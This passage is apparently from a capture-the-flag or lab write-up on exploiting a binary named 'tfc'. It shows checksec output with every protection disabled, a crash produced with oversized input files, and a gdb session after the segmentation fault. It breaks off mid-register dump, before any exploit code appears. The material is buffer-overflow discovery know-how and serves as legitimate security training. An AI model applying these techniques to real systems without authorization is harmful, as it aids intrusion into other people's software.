 I also checked out the security features this binary was compiled with:

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Woa. **No** security? Ok...

##we knocked and tfc opened the door to bof
The disassembly of `tfc` did not exactly point out any specific failures immediately either. Mainly due to my complete noobness. :)

So, I had the idea to check how it handles large files. And by large I mean to gradually increase the size of the file to be encrypted, starting with like 2MB. So I started to test this:

```bash
# create a file of roughly 2MB
root@kali:~# dd if=/dev/urandom of=large.tfc bs=1M count=2
2+0 records in
2+0 records out
2097152 bytes (2.1 MB) copied, 0.132812 s, 15.8 MB/s

# confirm the size of the file
root@kali:~# ls -lh large.tfc 
-rw-r--r-- 1 root root 2.0M Oct 14 15:01 large.tfc

# check how many characters we have in the file
root@kali:~# wc -c large.tfc 
2097152 large.tfc

# attempt encryption
root@kali:~# ./tfc large.tfc out.tfc
Segmentation fault
```

_Segmentation fault_! Being able to crash `tfc` is really good news. I went on to test just how many characters were needed to crash `tfc` in a easily reproducible way, and it came down to something like 6000 characters were doing the job just fine. So, it was time to inspect this crash in `gdb`. I first prepared a new file with just "A" in it:

```bash
root@kali:~# echo -n $(python -c 'print "A"*6000') > gdb-test.tfc
```

And continued to run it in `gdb`:

```bash
root@kali:~# gdb -q ./tfc
Reading symbols from /root/tfc...(no debugging symbols found)...done.
gdb-peda$ r gdb-test.tfc gdb-test-out.tfc

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0xb7fbfff4 --> 0x14bd7c 
ECX: 0xffffffc8 
EDX: 0x9 ('\t')
ESI: 0x0 
EDI: 0x0 
EBP: 0xc55193b 
```